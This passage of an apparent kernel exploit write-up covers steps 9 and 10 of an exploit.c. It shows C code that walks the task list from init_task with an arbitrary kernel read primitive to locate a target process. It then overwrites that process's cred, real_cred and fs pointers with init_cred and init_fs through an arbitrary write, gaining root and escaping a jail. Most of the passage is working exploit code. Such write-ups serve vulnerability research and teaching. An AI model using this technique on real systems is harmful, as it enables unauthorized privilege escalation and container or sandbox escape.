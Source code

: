 ## Step9: Find `struct task_struct` of privilege escalation process

- [exploit.c#L680](./exploit.c#L680):

```c
uint64_t privilege_escalation_task = find_task_by_name(PRIVILEGE_ESCALATION_TASK);
```

- [exploit.c#L554](./exploit.c#L554):

```c
uint64_t find_task_by_name(const char *name)
{
  struct list_head *tasks = NULL;
  tasks = abr_read(init_task + TASKS_OFFSET_FROM_TASK_STRUCT, sizeof(struct list_head));
  uint64_t current_task = tasks->prev - TASKS_OFFSET_FROM_TASK_STRUCT;

  while (current_task != init_task) {
    void *leak = abr_read(current_task + TASKS_OFFSET_FROM_TASK_STRUCT,
      COMM_OFFSET_FROM_TASK_STRUCT - TASKS_OFFSET_FROM_TASK_STRUCT + TASK_COMM_LEN);
    char *comm = leak + (COMM_OFFSET_FROM_TASK_STRUCT - TASKS_OFFSET_FROM_TASK_STRUCT);
    if (strcmp(comm, name) == 0)
      return current_task;

    tasks = leak;
    current_task = tasks->prev - TASKS_OFFSET_FROM_TASK_STRUCT;
  }

  return 0;
}
```

- Traverse from `init_task` to find the `task_struct` object that have `comm` field equal PRIVILEGE_ESCALATION_TASK. This is the process created in step1.1.

## Step10: Escalate to root and escape from jail

- [exploit.c#L682](./exploit.c#L682):

```c
do_privilege_escalation(privilege_escalation_task);
```

- [exploit.c#L574](./exploit.c#L574):

```c
void do_privilege_escalation(uint64_t task_struct_addr)
{
  abr_write(task_struct_addr + REAL_CRED_OFFSET_FROM_TASK_STRUCT, init_cred);
  abr_write(task_struct_addr + REAL_CRED_OFFSET_FROM_TASK_STRUCT + 4, init_cred >> 32);
  abr_write(task_struct_addr + CRED_OFFSET_FROM_TASK_STRUCT, init_cred);
  abr_write(task_struct_addr + CRED_OFFSET_FROM_TASK_STRUCT + 4, init_cred >> 32);
  abr_write(task_struct_addr + FS_OFFSET_FROM_TASK_STRUCT, init_fs);
  abr_write(task_struct_addr + FS_OFFSET_FROM_TASK_STRUCT + 4, init_fs >> 32);
}
```
